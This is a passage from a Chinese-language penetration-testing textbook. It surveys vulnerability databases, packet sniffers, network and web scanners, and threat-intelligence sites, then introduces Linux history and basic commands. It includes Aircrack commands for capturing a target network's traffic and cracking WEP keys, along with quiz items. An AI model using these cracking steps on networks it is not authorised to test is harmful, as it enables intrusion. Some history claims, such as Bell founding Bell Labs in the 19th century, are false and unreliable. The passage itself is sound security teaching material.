漏洞扫描器扫描系统是否存在已知漏洞。这似乎显而易见。但问题是，这些工具的供应商如何知道漏洞？有一些漏洞被记录在案的存储库。这些被各种工具引用以了解要查找的内容。你应该熟悉这些。

## CVE

通用漏洞和暴露（Common Vulnerabilities and Exposures，CVE）是由 Mitre 公司在 https://cve.mitre.org/ 维护的列表。它可能是最全面的漏洞列表。CVE 的设计目的是为漏洞提供一个通用名称和描述。这使安全专业人员能够有效地就漏洞进行沟通。CVE 最初由格式为 CVE-YYYY-NNNN 的 CVE ID 指定。该格式每年仅允许 9,999 个唯一标识符。新的格式是 CVE 前缀 + 年份 + 任意数字，允许任意数量的数字。

一个示例 CVE 是 CVE-2017-8541，其描述引用如下：

> 运行在 Microsoft Forefront 和 Microsoft Defender 上的 Microsoft 恶意软件保护引擎，在 Microsoft Windows Server 2008 SP2 和 R2 SP1、Windows 7 SP1、Windows 8.1、Windows Server 2012 Gold 和 R2、Windows RT 8.1、Windows 10 Gold、1511、1607 和 1703 以及 Windows Server 2016、Microsoft Exchange Server 2013 和 2016 上，未能正确扫描特制文件导致内存损坏。aka“Microsoft Malware Protection Engine 远程代码执行漏洞”，与 CVE-2017-8538 和 CVE-2017-8540 不同。

## NIST

美国国家标准与技术研究院维护一个漏洞数据库，你可以在 https://nvd.nist.gov/ 访问。NIST 也使用 CVE 格式。例如，CVE-2016-0217 描述如下：

> IBM Cognos Business Intelligence 和 IBM Cognos Analytics 容易受到存储型跨站脚本攻击，是由于用户提供输入的验证不当造成的。远程攻击者可以利用此漏洞向 Web 页面注入恶意脚本，一旦页面被查看，该脚本将在受害者的 Web 浏览器中在托管网站的安全上下文中执行。攻击者可以利用此漏洞窃取受害者的基于 cookie 的身份验证凭据。

## OWASP

开放 Web 应用安全项目是 Web 应用安全的标准。他们发布了许多重要文档。对于我们当前的目的，最重要的是他们的 Top 10 列表。每隔几年他们就会发布一个 Top 10 Web 应用漏洞列表。该列表包含在 Web 应用中最常发现的实际漏洞。从渗透测试的角度来看，不测试这些将是疏忽。对安全专业人员来说最令人不安的是，这个列表多年来变化很小。该列表是公开可用的，正如我们将在本章后面看到的那样，有免费工具可以测试这些漏洞，但许多网站仍然存在这些漏洞。你可以在图 8-1 中看到 2010 年和 2013 年列表的比较。

| OWASP Top 10 – 2010 | OWASP Top 10 – 2013 |
|---|---|
| A1 – Injection | A1 – 注入 |
| A3 – Broken Authentication and Session Management | A2 – 破坏的身份验证和会话管理 |
| A2 – Cross-Site Scripting (XSS) | A3 – 跨站脚本 (XSS) |
| A4 – Insecure Direct Object References | A4 – 不安全的直接对象引用 |
| A6 – Security Misconfiguration | A5 – 安全配置错误 |
| A7 – Insecure Cryptographic Storage – Merged with A9 → | A6 – 敏感数据泄露 |
| A8 – Failure to Restrict URL Access – Broadened into → | A7 – 缺少功能级访问控制 |
| A5 – Cross-Site Request Forgery (CSRF) | A8 – 跨站请求伪造 (CSRF) |
| <buried in A5: Security Misconfiguration> | A9 – 使用已知存在漏洞的组件 |
| A10 – Unvalidated Redirects and Forwards | A10 – 未验证的重定向和转发 |
| A9 – Insufficient Transport Layer Protection | 与 2010-A7 合并为新的 2013-A6 |

图 8-1 OWASP Top 10 列表。

截至本文撰写时，2017 年的列表尚未最终确定。但这里给出一个暂定列表：

- A1 Injection
- A2 Broken Authentication
- A3 Sensitive Data Exposure
- A4 XML External Entities (XXE)
- A5 Broken Access Control
- A6 Security Misconfiguration
- A7 Cross-Site Scripting (XSS)
- A8 Insecure Deserialization
- A9 Using Components with Known Vulnerabilities
- A10 Insufficient Logging and Monitoring

应该让你惊讶的是，许多漏洞多年来一直留在前 10 名。请记住，这些列表是现实世界中发现的实际漏洞的列表。这些不是理论上的。这意味着年复一年，Web 开发人员仍然犯着完全相同的错误。


## 数据包捕获

捕获网络流量通常是漏洞扫描的一部分。查看正在传输的数据以及数据中的内容会非常有用。在本节中，我们将介绍一些常见的网络数据包嗅探器/扫描器。

### tcpdump

Linux 上最常见的网络数据包扫描器之一是 tcpdump。它也已被移植到 Windows。Windows 版需要下载；你可以在这里获取：http://www.tcpdump.org/。它通过 shell/命令行运行，使用起来相对容易。启动时，你需要指定要捕获数据包的接口，例如：

```
tcpdump -i eth0
```

该命令会使 tcpdump 捕获网络卡 eth0 的网络流量。你还可以使用多种命令行标志来改变 tcpdump 的行为，例如以下：

```
tcpdump -c 500 -i eth0
```

这会告诉 tcpdump 仅捕获 eth0 接口上的前 500 个数据包然后停止。

```
tcpdump -D
```

该命令将显示计算机上的所有接口，以便你选择使用哪一个。

你可以在图 8-2 中看到这三个选项。


图 8-2 TCP 转储。

使用 TCPdump 有多种方式。以下是几个示例：

- **tcpdump host 192.168.2.3** 只会显示发往或来自 192.168.2.3 的流量。
- **tcpdump -i any** 获取计算机上任意接口的进出流量。
- **tcpdump -i eth0** 只会获取 eth0 接口的流量。
- **tcpdump port 3389** 只会显示 3389 端口的流量。
- **tcpdump smtp** 只会显示使用 SMTP 协议的流量。

你可以在 https://danielmiessler.com/study/tcpdump/#complex-grouping. 找到更多详情。

### Wireshark

Wireshark 是最广为人知的网络数据包嗅探器之一。渗透测试人员只需嗅探目标网络的网络流量就能学到很多东西。Wireshark 提供了方便的图形用户界面（GUI）来检查网络流量。它是免费下载的，你可以在 https://www.wireshark.org/ 获取。该工具可用于 Windows 或 Macintosh 下载。它具有图形用户界面，而不是基于命令行。图 8-3 显示了 Wireshark 的主界面。


如果你点击图 8-4 中红色框所示的 Expression 按钮，则会显示 Display Filter Expression 窗口（也在图 8-4 中显示），允许你创建过滤器。


图 8-4 过滤器。

过滤器是必要的，因为 Wireshark 会捕获它看到的所有流量，从而导致大量无关数据包。通过使用过滤器，你可以将显示内容精简为当前感兴趣的内容。还应注意，过滤器是 Wireshark 在最近几个版本中扩展很大的一项功能。

使用 Wireshark 时，你可以高亮任何数据包，然后查看该数据包的详细信息，包括如图 8-5 所示的各种网络头，如 Ethernet、TCP 和 IP。你也可以右键单击特定数据包，然后选择查看与该数据包关联的整个对话。

当你双击任何数据包时，你会看到数据并可以展开头，如图 8-6 所示。


图 8-5 跟踪 TCP 流。


图 8-6 数据包详情。

如果你点击 Statistics 下拉菜单，会有许多有趣的选项，如图 8-7 所示。


图 8-7 Wireshark 统计信息。

如你所见，如果捕获了 DNS 或 DHCP 流量，你可以选择该选项来收集与该协议相关的统计信息。选择对话可以让你查看 IPv4、IPv6、TCP 和 UDP 对话的统计信息。HTTP 可以为你提供大量关于 HTTP 流量的信息。显然还有许多其他选择。本章并非 Wireshark 教程，而是希望为你提供 Wireshark 的基本操作知识。

Wireshark 是一个非常多功能的工具。花时间完全学习该工具的所有功能是值得的。幸运的是，Wireshark 页面 https://www.wireshark.org/#learnWS 上有许多资源可以帮助你学习。

使用像 Wireshark 这样的工具的原因是获得网络上传输内容的非常细粒度的视图。你实际上可能会看到包括凭据在内的明文传输数据。或者你可以看到 TLS 的建立和使用。你也可能会看到从 Web 服务器返回的错误代码。从映射网络流量中可以得出大量数据。

## 网络扫描器

数据包扫描旨在捕获网络卡看到的数据包。网络扫描会扫描网络或网络段。它可以枚举网络并识别该网络上的服务。这是对渗透测试人员来说一个很好的初步步骤。

### LanHelper

LanHelper 工具是一个经济实惠的网络映射/扫描器，你可以从 http://www.hainsoft.com/download.htm 下载。它安装速度相当快，然后你只需通过点击 Network 下拉菜单并选择以下其中一项来告诉它进行扫描：

- 扫描局域网
- 扫描 IP
- 扫描工作组

扫描完成后，你将看到网络上所有设备的列表，你可以点击其中任何一个以获取更多详细信息，如图 8-8 所示。


图 8-8 LanHelper。

## 无线扫描器/破解器

今天无线网络无处不在。因此，扫描无线网络，甚至通过尝试破解来测试其安全性，对任何网络管理员来说都是重要活动。前一节提到的网络扫描器可用于无线网络，但也有专门为 Wi-Fi 设计的工具可供使用。

除了扫描之外，许多这些 Wi-Fi 工具还会尝试破解你的 Wi-Fi。它们本质上会尝试推导出密码或规避安全措施。网络安全专业人员使用此类工具扫描网络以在攻击者之前发现问题非常重要。

### Aircrack

Aircrack 是扫描和破解 Wi-Fi 最受欢迎的工具之一。它是免费下载的，你可以在 http://www.aircrack-ng.org/ 获取。实际上，这个下载包中有几个工具。其中一个名为 wzcook.exe 的工具会尝试从安装它的本地机器中提取无线数据，包括密码。但这不是我们在这里感兴趣的部分。主要工具是 aircrack-ng。它是一个命令行工具，你可以在图 8-9 中看到它。


图 8-9 Aircrack-ng。

熟悉所有命令行标志需要一些时间；然而，这是一个非常重要的工具，花费的时间是值得的。它如此重要的原因在于它在攻击者中非常流行。如果你使用攻击者可能使用的相同工具扫描无线网络，并找到问题并加以纠正，那么你的网络就不太容易受到无线攻击。

当你下载 Aircrack 时，你会注意到 bin 目录中有许多可执行文件。有 airdecloak-ng.exe；airodump-ng.exe；aircrack-ng-avx2.exe；等等。这些每个都有不同的无线功能。以下是一些基本命令：

- **airodump-ng interface:** 这将对指定的接口进行数据包捕获。
- **airodump-ng -c 11 --bssid 00:01:02:03:04:05 -w dump interface:** -c 表示 Wi-Fi 信道，在此例中为 11。-w 表示转储到硬盘。-bssid 将定义你希望捕获的无线网络的 BSSID。对于较旧的加密方式，如 WEP，你可以捕获大约 50,000 个数据包，应该就能破解它。
- **aircrack-ng -b 00:01:02:03:04:05 dump-01.cap:** 这告诉 Aircrack 取数据包转储并尝试破解它。

## 通用扫描器

有几个扫描器是通用漏洞扫描器。这些应该是你渗透测试工具集的一部分。我们将在本节中介绍一些更常见的扫描器。

### MBSA

Microsoft 基线安全分析器不是最强大的漏洞扫描器。然而，它是免费下载的，除了查找漏洞外，还可用于查找 Windows 机器的配置问题。你可以从以下位置下载 MBSA：

https://www.microsoft.com/en-us/download/details.aspx?id=7558

除了免费之外，它使用起来非常容易。你可以在图 8-10 中看到 MBSA 的输出。

MBSA 是一个有限的漏洞扫描器。它主要用于查找常见的、基础的 Microsoft 问题；然而，它是免费下载的且使用起来非常简单。因此，至少应该考虑使用它。


图 8-10 MBSA 输出.

## Nessus

Nessus 是一个广为人知的漏洞扫描器。它已被使用多年。不幸的是，它不是免费的。许可证费用超过每年 2,100 美元，可从 https://www.tenable.com/ 获得。其价格对许多渗透测试人员来说是一个障碍。Nessus 的主要优势在于供应商会不断更新其可扫描的漏洞。Nessus 还具有非常易于使用的 Web 界面，如图 8-11 所示。


图 8-11 Nessus 主屏幕.

第一步是选择 **New Scan**。然后你会得到一些选项，如图 8-12 所示。


图 8-12 Nessus 扫描选项.

就我们的目的而言，选择 **Basic Network Scan**。基本设置很直观。你必须为扫描命名并选择一个 IP 地址范围，如图 8-13 所示。


图 8-13 Nessus 选项.

然后你可以安排扫描稍后运行，或立即启动。Nessus 扫描运行可能需要一些时间，因为它相当彻底。结果以非常有组织的屏幕呈现，如图 8-14 所见。


图 8-14 Nessus 结果.

你然后可以深入查看任何感兴趣的项目。首先双击特定的 IP 地址，这将显示该 IP 的详细信息，如图 8-15 所示。


图 8-15 Nessus 结果：详细.

你可以然后双击任何单个项目以获取更多详细信息。这将为你提供有关问题的详细信息以及如何修复问题。

## Nexpose

Nexpose 是另一款商业产品。它来自 Rapid7，即分发 Metasploit 的厂商。你可以在 https://www.rapid7.com/products/nexpose/ 找到 Nexpose。有免费试用版可供下载和实验。该工具是一个 Linux 虚拟机，学习起来需要一些努力。鉴于它由与分发 Metasploit 的同一家公司分发，它已受到显著的市场关注。

## SAINT

SAINT 是一个广为人知的漏洞扫描器。它可在 http://www.saintcorporation.com/ 获得。你可以申请免费试用版。它将扫描网络中任何 TCP 或 UDP 服务，然后扫描这些机器是否存在任何漏洞。它使用通用漏洞和暴露（CVE）以及 CERT advisories 作为参考。

## Web 应用扫描器

Web 应用程序面向公众，因此是攻击的热门目标。因此，你绝对应该投入精力扫描你的 Web 应用程序是否存在漏洞。

### OWASP ZAP

开放式 Web 应用程序安全项目（OWASP）是 Web 应用程序漏洞的标准。他们还提供一个免费的漏洞扫描器，称为 Zed Attack Proxy，或更常被称为 OWASP ZAP。你可以从 https://github.com/zaproxy/zaproxy/wiki/Downloads 下载。该界面，如图 8-16 所示，非常易于使用。


图 8-16 OWASP ZAP 主屏幕.

只需输入你想要扫描的站点的 URL，然后单击 Attack。片刻之后，结果将显示（在底部）。然后你可以展开任何项目。如果单击特定项目，详细信息将加载到窗口窗格中。你可以在图 8-17 中看到这一点。


图 8-17 OWASP ZAP 结果.

OWASP ZAP 是一个非常易于使用的工具。基础知识可以在几分钟内掌握。而且鉴于 OWASP 是跟踪 Web 应用程序漏洞的组织，它是测试网站漏洞的非常好的来源。

### Vega

Vega 是另一个用于网站的漏洞扫描器。它也是免费的，可从 https://subgraph.com/vega/download/ 获得。有 Windows、Linux 或 Macintosh 版本。要开始扫描，只需单击工具栏中的目标图标，然后输入你想要扫描的网站的 URL，如图 8-18 所示。


图 8-18 Vega.

你然后逐步完成一个简单的向导，选择你想要扫描的项目，然后扫描开始。片刻之后，你将看到结果。你可以展开并选择任何特定问题以查看详细信息，如图 8-19 所示。


图 8-19 Vega 结果.

与 OWASP ZAP 类似，Vega 提供了有关问题所在、问题的严重程度以及如何修复问题的详细信息。鉴于 OWASP ZAP 和 Vega 都是免费且非常易于使用，我建议同时使用两者来执行目标网站的漏洞扫描。使用多种工具可保证全面覆盖。这仍然不能保证你能发现每个漏洞，但这是做到这一点的最佳机会，也是你能做到的最彻底的方法。

## 网络威胁情报

网络威胁情报的主题与漏洞扫描相关。其概念是组织应使用情报收集技术来了解对其网络的威胁。网络威胁情报的一部分涉及暗网，我们将在第 17 章“General Hacking Knowledge”中对此进行探讨。

其概念是监控趋势，以便你对可能成为网络问题的威胁有一个大致的了解。例如，如果你在一家银行工作，就存在针对银行的特定威胁，但这些威胁对大学网络来说要么不是问题，要么至少远不那么重要。网络威胁情报是关于了解当前趋势，以便你可以采取主动措施。你可能会问，这与渗透测试有什么关系？最好的渗透测试人员是主动的。不仅仅是测试普通的、众所周知的漏洞，例如 SQL injection，而是衡量当前趋势，并相应地修改测试。有一些优秀的网站可以帮助你了解趋势。

### Threatcrowd.org

网站 https://www.threatcrowd.org/ 是一个网络威胁搜索引擎。你可以搜索域名、IP地址或特定威胁。例如，在图 8-20 中，我搜索了 Ransomware。


图 8-20 Threat Crowd.

在渗透测试之前，搜索总体趋势以及目标网络的 IP 地址和域名（s）是一个好主意。

### Phishtank

网站 https://www.phishtank.com/ 提供有关当前网络钓鱼诈骗的信息。这对渗透测试人员来说不太有趣，但对安全管理员来说非常有趣。如果你了解当前的网络钓鱼诈骗，你可以通知员工，让他们保持警惕。

### Internet Storm Center

SANS Institute Internet Storm Center，https://isc.sans.edu/，允许你搜索域名、关键词、IP地址或其他特征。它会让你知道网络空间中当前正在发生哪些“风暴”。

### OSINT

开源情报，或 OSINT，也是网络威胁情报的一部分。除了了解总体趋势之外，你可能需要查找特定 IP 地址、电子邮件地址或其他识别标记的信息。网站 http://osintframework.com/ 是开源情报链接的存储库。你可以使用该站点搜索电子邮件地址、特定漏洞利用或其他感兴趣的项目。图 8-21 显示了主着陆页。

### OSINT Framework


图 8-21 OSINT Framework.

## 总结

本章检查了几个数据包嗅探器、网络扫描器和漏洞扫描器。这些工具中的每一个都可以提供对给定计算机、Web 应用程序或网络上存在的漏洞的自动评估。漏洞扫描可以是识别渗透测试攻击向量的初步步骤，也可以是独立的测试本身。然而，重要的是要记住，漏洞扫描不是渗透测试。

网络威胁情报可以帮助你的渗透测试方法专注于当前和新兴的威胁。如果你不了解目标网络的当前危险，那么你的渗透测试充其量是不完整的。

## 测试你的技能

### 多项选择题

- 1. 以下哪一项是自动通用漏洞评估工具？
- A. Nmap
- B. Nessus
- C. OWASP ZAP
- D. Wireshark

- 2. 以下哪个命令会使 Aircrack 转储 BSSID 为 00:01:02:03:04:05 的无线接入点的内容？
- A. airodump-ng -c 11 --bssid 00:01:02:03:04:05 -w dump interface
- B. airodump-ng -c 11 --bssid 00:01:02:03:04:05 dump interface
- C. airodump-ng --bssid 00:01:02:03:04:05 -w dump interface
- D. airodump-ng -c 11 --bssid 00:01:02:03:04:05 -w dump

- 3. tcpdump -i eth0 命令会做什么？
- A. 转储除 eth0 之外的所有数据包
- B. 转储所有数据包而不论接口
- C. 转储 eth0 上的所有数据包
- D. 转储包含字符串 eth0 的所有数据包


4. 以下哪一项是 Web 应用程序漏洞扫描器？
- A. OWASP ZAP
- B. Wireshark
- C. tcpdump
- D. Nessus

5. 以下哪种扫描器可用于 Macintosh 计算机？
- A. tcpdump
- B. MBSA
- C. OWASP ZAP
- D. Vega

## 项目

虽然扫描任何人的网络并不违法，但人们通常会觉得不友好。最好扫描你自己的家庭或班级实验室网络。在工作场所这样做通常不是一个好主意，除非你得到了老板的许可。

### 项目 1：MBSA

Microsoft Baseline Security Analyzer 不是最强大的漏洞分析器，但在 Microsoft 环境中运行良好，并且可以免费下载，网址为 https://www.microsoft.com/en-us/download/details.aspx?id=7558。

下载并安装它。选择扫描计算机（见图 8-22），并扫描你自己的计算机（见图 8-23）。解决它发现的任何问题。


图 8-22 MBSA。


图 8-23 MBSA 结果。

### 项目 2：OWASP ZAP

在本项目中，你将实际使用 OWASP ZAP 来查找网站中的漏洞。

- 1. 下载并安装 OWASP ZAP，可在 https://github.com/zaproxy/zaproxy/wiki/Downloads 获取。
- 2. 启动 OWASP ZAP；你可以使用 Windows 或 Kali Linux。
- 3. 选择目标（如果你愿意，可以使用 www.chuckeasttom.com）。
- 4. 点击攻击。
- 5. 查看结果。

### 项目 3：下载 Wireshark

首先在你的计算机上安装 Wireshark。它是 https://www.wireshark.org/ 的免费下载。然后按照以下步骤操作：

- 1. 配置 Wireshark 以捕获你网络上的流量，使用混杂模式（默认）且不使用捕获过滤器。
- 2. 打开你的浏览器并浏览几个网站。也许发送一封电子邮件。
- 3. 当你大约有 2,000 个数据包时，停止捕获。
- 4. 随机挑选一两个数据包。展开它们并查看头部（TCP、IP 和以太网）。你能识别出 MAC 地址？IP地址？端口？协议？重复几次，直到你能够舒适地阅读数据包头部。
- 5. 识别在你的捕获中频繁出现的 IP 地址。
- 6. 应用视图过滤器仅捕获该 IP 地址（见图 8-24）。


图 8-24 Wireshark 视图过滤器。

- 7. 移除过滤器。
- 8. 使用 TCP 流跟踪你在捕获时访问的某个网站的通信（见图 8-25）。


图 8-25 Wireshark 跟踪 TCP 流。

# 第 9 章

### Linux 简介

### 章节目标

**阅读本章并完成练习后，你将能够做到以下几点：**

- 了解 Linux 的基本要素
- 执行基本的 Linux 命令
- 了解 Linux 目录结构

接下来的几章将介绍 Metasploit。Metasploit 是 Kali Linux 发行版的一部分。这意味着如果你不了解 Linux，就不会特别有效地使用 Kali 或 Metasploit。本章为你提供了 Linux 操作系统的概述。如果你已经精通 Linux，可以随意跳过本章或快速浏览一下。然而，如果你对自己的 Linux 知识有任何疑问，那么至少浏览一下本章。

### Linux 历史

当然可以在不了解其历史的情况下使用 Linux。你可能已经使用 Linux 一段时间了，对其如何或为何开发知之甚少或一无所知。然而，我坚信在学习任何主题时，了解该主题的历史是很重要的。它可以为你提供一个研究该主题的背景，并通常有助于阐明为什么有些事情会是现在这样。

Linux 本质上是 Unix 的开源克隆。这也是学习 Linux 的又一个原因。两者如此相似，以至于许多大学会使用 Linux 来教授 Unix。这是因为虽然它们的操作非常相似，但价格却不同。Linux 是开源的，因此免费。Unix 可能相当昂贵。

让我们从讨论 Unix 的诞生地开始。Unix 是传奇的 Bell Laboratories 的创造。对于不熟悉 Bell Laboratories 的读者来说，他们因众多技术和科学突破而闻名，包括首次发现大爆炸的证据、C 编程语言的创建，当然还有 Unix 的创建。Bell Laboratories 实际上是由亚历山大·格雷厄姆·贝尔在 19 世纪创立的。后来它与 AT&T Labs 合并，形成了我们今天所知的 Bell Labs。

到 20 世纪 60 年代末，计算机正在发展。它们远不及你今天习惯的那样，但计算机的使用正在扩大。一个问题是没有广泛使用的通用操作系统。Bell Labs 曾参与过一个名为 Multics（Multiplexed Information and Computing Service）的项目。Multics 是麻省理工学院、Bell Labs 和通用电气共同努力创建的，旨在创建一个具有广泛通用用途的操作系统。然而，Multics 项目问题重重，Bell Labs 决定退出该项目。Bell Labs 的一个团队，由 Ken Thompson、Dennis Ritchie、Brian Kernighan、Douglas McIlroy 和 Joe Ossanna 组成，决定创建一个可能被广泛使用的新操作系统。

Unix 是一项尝试，旨在创建一个可在各种硬件上运行的操作系统。Bell Labs 希望 Unix 成为一个通用操作系统，可用于各种不同的场景。事实证明它是一个无可争议的成功。Unix 于 1971 年首次发布，几乎 50 年后，它仍然是一个广泛使用的操作系统。Unix 被广泛认为是最稳定的操作系统，也是最安全的。值得注意的是，即使是 Apple 也从自己的专有操作系统转向了基于 Unix 变体的 OS X。

该项目的最初名称是 Unics，是对术语 Multics 的戏仿。最初 Unix 是团队的一个副项目，因为 Bell Labs 并未积极提供资金支持。只有在团队添加了可在其他 Bell 计算机上使用的功能后，公司才开始热情地支持该项目。

当时，所有操作系统都是用汇编语言编写的。1972 年，Unix 完全用 C 编程语言重写。顺便说一下，C 也是在 Bell Labs 开发的，由一些参与 Unix 项目的同一团队成员开发。因此，C 和 Unix 之间一直存在着紧密的联系。

开源运动的兴起最终带来了开源 Unix 变体。开源首次被公众广泛关注是由 Richard Stallman 推动的。1985 年，Richard Stallman 发表了一篇题为“GNU 宣言”的论文。该文件概述了开源许可的参数，从而确立了 Stallman 作为开源软件之父的地位。Stallman 的自由软件基金会后来创建了 GNU 通用公共许可证，该许可证现在用于大多数开源产品，包括 Linux。

Stallman 于 1983 年开始着手自己的操作系统。他称这个系统为 GNU（这个缩写代表 GNU is Not Unix）。他的目标很简单，就是创建一个 Unix 的开源版本。他希望它尽可能像 Unix，尽管名字如此（GNU is Not Unix）。然而，Stallman 的开源 Unix 变体并未获得广泛流行，很快被其他更强大的变体取代。

在 1970 年代和 1980 年代出现如此多 Unix 变体的一个原因是，这些变体的许多创建者实际上曾使用过 Unix 源代码。必须记住，当 Bell Labs 最初创建 Unix 时，他们向公众发布了其源代码。这已不再是这种情况，但这意味着在 70 年代和 80 年代研究操作系统的计算机科学家很可能非常熟悉 Unix 源代码。

1987 年，一位名叫 Andrew S. Tanenbaum 的大学教授创建了另一个 Unix 变体，名为 Minix。Minix 相当稳定且功能齐全，是一个相当不错的 Unix 克隆。Minix 完全由 Tanenbaum 教授用 C 编写。他主要将其作为教学工具供他的学生使用。他希望他们通过能够研究操作系统的实际源代码来学习操作系统。Minix 的源代码包含在他的一本书《Operating Systems: Design and Implementation》中。将源代码放在一本被广泛使用的教科书中意味着大量计算机科学学生会接触到这段源代码。加上之前发布的原始 Unix 源代码的发布，这意味着许多计算机科学学生非常彻底地学习了 Unix 和/或 Unix 克隆。这种对原始 Unix 源代码和 Unix 克隆源代码的广泛接触是大多数开源操作系统都是 Unix 克隆的原因之一。

尽管 Minix 未能获得一些其他 Unix 变体的流行度，但它激发了 Linux 创建者的灵感。Linux 操作系统的故事实际上是 Linus Torvalds 的故事。他在 90 年代初作为攻读计算机科学博士的在读研究生开始了 Linux 的工作。在那个时代，所有计算机科学学生都使用 Unix，因为当时没有 Windows 或 DOS，而 Apple 仍然非常依赖业余爱好者计算机。因此，Torvalds 对 Unix 操作系统非常熟悉。

除了学习 Unix，Torvalds 还接触到了 Minix 操作系统。Torvalds 喜欢 Minix 操作系统的许多东西，但他认为自己可以制作出更好的 Unix 变体。因此他创建了自己的 Unix 克隆并将其作为开源发布。他选择了 Linux 这个名字，是他自己的名字 Linus 和 Unix 结尾的 nix 的组合。

一旦他的初始 Linux 项目启动，Torvalds 就必须解决如何将其推向公众的问题。他开始在互联网讨论板上发布操作系统代码，允许任何人使用、玩弄或修改它。最后，Torvalds 在 GNU 公共许可证下在互联网上发布了 Linux 0.01。因为它是开源的，其他计算机科学家和程序员可以访问源代码。这使得世界各地的人们能够参与 Linux 并为其开发做出贡献。

在随后的几年里，Linux 的流行度不断增长。它已从计算机爱好者的业余操作系统发展成为成熟的商业操作系统。各种供应商，包括公司和个人，都会采用 Linux 内核并添加自己的细微差别。这些细微差别可能包括额外的应用程序、不同的安装过程，甚至不同的目标。例如，Red Hat 致力于创建适用于大规模服务器的 Linux 发行版，而 Ubuntu 和 Kubuntu 都针对在单台工作站上安装的初学者用户。然后还有像 EnGarde、Trustix 和 NetSecL 这样的 Linux 发行版，它们专门为高安全性而设计。一个

也可以找到专门用于防火墙的 Linux 发行版，例如 IPCop 和 FireGate Server。毫不夸张地说，几乎任何用途都有对应的 Linux 发行版。当然还有 Kali Linux，它是渗透测试社区的宠儿。

## Linux 命令

虽然 Linux 的历史很有趣，并且可以为你理解 Linux 提供背景，但本章的真正目标是让你能够使用 Linux。这意味着使用 Linux 命令。在本节中，我们将探索基本的 Linux 命令。

### ls 命令

ls 是较为基础的命令之一。它只是列出你当前所在的目录内容。你可以把它想成 Windows 中的 dir 命令。你可以在图 9-1 中看到此命令。


图 9-1 使用 ls 命令列出目录内容。

Linux（或 Windows）中的每个命令都有标志。这些标志允许你修改命令以产生不同的结果。

查看这些命令最简单的方法是输入命令后跟 -?，例如

```
ls -?
```

或使用术语 **man**（手册页的简写）后跟命令，例如

```
man ls
```

以下是一些较为常见的 **ls** 标志：

- **-a**：显示所有文件，即使是隐藏文件
- **-l**：获取文件的属性
- **-t**：按修改时间排序

这是一个你应该非常熟悉的非常基础的命令。

### cd 命令

**cd** 命令用于更改目录，在目录树中向上或向下移动。它与 Windows 中的 **cd** 命令非常相似。以下是 **cd** 的一些选项：

```
cd directoryname    // changes to the directory
cd ~                // changes to home directory for that user
cd ..                // changes up one level
```

这又是另一个非常基础的命令。如果没有对该命令的基本掌握，你在 Linux 中浏览文件夹时会非常困难。你可以在图 9-2 中看到此命令。


图 9-2 使用 **cd** 命令更改目录。

### 管道输出

所有 shell 命令默认都会将输出显示到屏幕上；然而，可能存在你希望将输出存储到某个文件中的情况。这时重定向命令（>）就派上用场了。它会将其他命令的输出重定向到文件。这对于某些系统命令尤其有用：

```
ls > myfile.txt
```

你可以在图 9-3 中看到此命令。


图 9-3 管道化命令。

### finger 命令

finger 命令用于获取特定用户的信息。这对于系统管理员来说通常很有用。例如，如果你运行 top 命令并看到某个特定用户在服务器上启动了多个进程，并且这些进程消耗资源，那么你可能想了解该用户。这在图 9-4 中显示。


图 9-4 使用 finger 命令检索用户活动。

### grep 命令

grep 命令在 Linux 和 Unix 用户中如此受欢迎，因为它非常灵活。如果你要在 shell 中输入 man grep，你会看到一个相当详尽的条目，列出了可以传递给 grep 的多个标志。书中一章中的一个小节不可能完全体现该命令的多功能性和灵活性。然而，我可以为你提供 grep 的基本介绍。

在名为 somefile 的文件中查找单词“virus”的所有实例：

```
grep 'virus' somefile
```

在同一文件中查找相同数据，但忽略大小写：

```
grep -i 'virus' somefile
```

在文件 somefile 中查找以 v 开头以 s 结尾的单词：

```
grep 'v...s' somefile
```

在这种情况下，... 告诉 Linux 要搜索多少个字母。要搜索，无论中间有多少个字母：

```
grep 'v.*s' somefile
```

以下命令统计 shell 为 /bin/false 的账户数量：

```
grep -c false /etc/passwd
```

如果 grep 找到结果，则显示文本文件中的该行。如果未找到结果，则显示空白。你可以在图 9-5 中看到一些基本的 grep 示例。


图 9-5 grep 示例。

### ps 命令

ps 命令与系统进程相关，可能是最基本的进程相关命令。它会为你提供系统上当前运行进程的列表。没有选项时，ps 会列出属于当前用户且具有控制终端的进程。默认情况下，ps 选择所有与当前用户具有相同用户 ID 且与调用者关联相同终端的进程。它显示进程 ID（PID）、进程关联的终端（TTY）、累计 CPU 时间（dd-hh:mm:ss 格式）以及可执行名称。输出默认未排序。然而，与许多 shell 命令一样，此命令也有多个选项可供传递以改变其行为。以下是更常用的选项：

- **-A**：显示所有进程；这与下面解释的 **-e** 选项相同。
- **-N**：显示除满足指定条件之外的所有进程。
- **-a**：显示具有 TTY 的所有进程，但不包括会话领导者和任何未关联特定终端的进程。
- **-d**：显示所有进程，但会省略会话领导者。
- **-e**：显示此系统上的所有进程，无论用户或终端。
- **-T**：显示此终端上的所有进程。
- **-x**：显示没有控制 TTY 的进程。
- **-H**：以层级格式显示进程。
- **-w**：以宽格式显示数据。

你可以在图 9-6 中看到 **ps** 命令和 **ps -e** 选项。


图 9-6 使用 ps 命令显示所有进程。

### pstree 命令

**pstree** 命令与 **ps** 命令非常相似，只是它以树状结构显示所有进程（类似于 **tree** 对目录的处理）。我个人认为图 9-7 中显示的运行进程的视图非常有用，我更喜欢它而不是 **ps** 命令。


图 9-7 使用 pstree 命令以树视图显示进程。

与大多数命令一样，此命令也有几个你可能需要使用的选项：

- **-a**：显示任何命令行参数。
- **-A**：通过使用 ASCII 字符绘制树来更改显示。
- **-c**：禁用相同子树的压缩。默认情况下，只要可能就会压缩子树。
- **-G**：使显示使用 VT100 线条绘制字符。
- **-h**：显示当前进程及其祖先。如果此终端不支持高亮，则它将简单地显示一个正常的 pstree。
- **-H**：工作方式与 -h 完全相同，只是它高亮指定的进程。不同于 -h，如果使用 -H 时不可用高亮，pstree 将失败。
- **-l**：使显示使用长行。默认情况下，如果输出发送到非 TTY 或显示宽度未知，行将被截断到显示宽度或 132。
- **-n**：按 PID 而不是按名称（数字排序）对具有相同祖先的进程进行排序。
- **-p**：使显示显示 PID。PID 以十进制数字显示在每个进程名称后的括号中。
- **-u**：显示 UID 转换。每当进程的 UID 与其父进程的 UID 不同时，新的 UID 会在进程名称后的括号中显示。
- **-U**：使显示使用 UTF-8（Unicode）线条绘制字符。
- **-V**：显示版本信息。

这些选项可用于获取 pstree 中进程的额外信息。

### top 命令

